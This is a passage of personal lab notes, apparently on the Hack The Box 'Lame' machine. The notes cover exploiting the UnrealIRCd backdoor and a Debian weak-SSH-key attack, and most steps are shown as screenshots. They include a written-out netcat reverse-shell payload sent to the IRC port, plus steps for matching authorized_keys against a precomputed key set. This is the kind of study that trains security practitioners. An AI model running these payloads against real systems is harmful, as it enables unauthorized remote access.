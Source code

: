 We find IRC running as root


Lets take a look at some exploits using searchsploit

![[Pasted image 20240624204145.png]]

`searchsploit -x 16922`
![[Pasted image 20240624204530.png]]

- Very similar to VSFTD backdoor where we can append `AB;` to trigger a backdoor and include a payload

- Lame is listening locally for UnrealIRCD on 6667
- Lets pipe a payload to an `nc` listener that attempts a connection to Unrealircd on local host

`echo "AB; nc -e /bin/bash 10.10.16.17 9001" | nc 127.0.0.1 6697`
![[Pasted image 20240624205207.png]]

![[Pasted image 20240624205238.png]]

***
***

### **SSH**

![[Pasted image 20240624211008.png]]


We may be able to predict PRNG due to readable `authorozed_keys` file
https://github.com/g0tmi1k/debian-ssh

![[Pasted image 20240624210511.png]]

Pull github code:
![[Pasted image 20240624211244.png]]

![[Pasted image 20240624211351.png]]

Extract using `tar`
![[Pasted image 20240624211550.png]]


`T1110.002: Credential Access:Password Cracking`
#TTP 

The `rsa` folder contains cracked public and private keys
![[Pasted image 20240624211814.png]]

So we need to get the public key for `authorized_keys`
![[Pasted image 20240624212128.png]]

Copy and search in `/rsa` folder for match
